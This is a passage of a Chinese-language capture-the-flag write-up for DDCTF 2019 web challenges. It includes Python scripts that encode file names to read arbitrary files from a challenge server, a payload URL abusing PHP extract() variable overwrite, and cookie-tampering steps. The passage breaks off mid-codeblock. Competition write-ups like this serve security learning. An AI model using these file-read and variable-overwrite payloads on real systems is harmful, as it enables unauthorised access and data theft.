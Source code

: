  u = 'practice.txt.swp'

 jpg = base64.b64encode(base64.b64encode("".join("{:02x}".format(ord(c)) for c in u).encode('utf-8'))).decode('utf-8')

 r = requests.get('http://117.51.150.246/index.php', params={'jpg': jpg})

 print(r.url)
 print(r.text)
 {% endcodeblock %}
![image](https://user-images.githubusercontent.com/38073810/56412137-caa62700-62b5-11e9-8cce-c33bdec84bb6.png)
 运行后得到Base64加密过的数据，解密后得到
![image](https://user-images.githubusercontent.com/38073810/56412320-4acc8c80-62b6-11e9-89a9-5fa3f4be196e.png)
#### 5、构造f1ag!ddctf.php
{% codeblock lang:python %}
import base64
import requests

u = 'f1agconfigddctf.php'

jpg = base64.b64encode(base64.b64encode("".join("{:02x}".format(ord(c)) for c in u).encode('utf-8'))).decode('utf-8')

r = requests.get('http://117.51.150.246/index.php', params={'jpg': jpg})

print(r.url)
print(r.text)
{% endcodeblock %}
之前我们在index.php中可以通过审计代码得到config可以被替换为！所以我们在构造f1ag!ddctf.php时，注意把！替换为config
得到Base64加密过的数据，解密后得到
![image](https://user-images.githubusercontent.com/38073810/56412587-55d3ec80-62b7-11e9-9d02-3c714d4df416.png)
审计代码后发现可以利用extract变量覆盖
资料：http://www.w3school.com.cn/php/func_array_extract.asp
我们构造payload:http://117.51.150.246/f1ag!ddctf.php?uid=&k=1  最终得到flag
![image](https://user-images.githubusercontent.com/38073810/56413294-99c7f100-62b9-11e9-82f9-77c9d8e706ba.png)
### 二、WEB签到题
![image](https://user-images.githubusercontent.com/38073810/56414702-0b09a300-62be-11e9-8592-215823d406fe.png)
靶机:http://117.51.158.44/index.php
知识点：php代码审计、文本格式化、php反序列化
#### 1、查看js, didictf_username
![image](https://user-images.githubusercontent.com/38073810/56415105-45277480-62bf-11e9-8503-938ce3ca7efb.png)
#### 2、Burpsuite抓包，修改didictf_username为admin，得到目录
![6DD11375-1C41-494F-82F1-A4514A657B38](https://user-images.githubusercontent.com/38073810/56414665-e1e91280-62bd-11e9-923f-85c423939e56.png)
#### 3、访问app/fL2XID2i0Cdh.php,得到源码
{% codeblock lang:php %}

url:app/Application.php

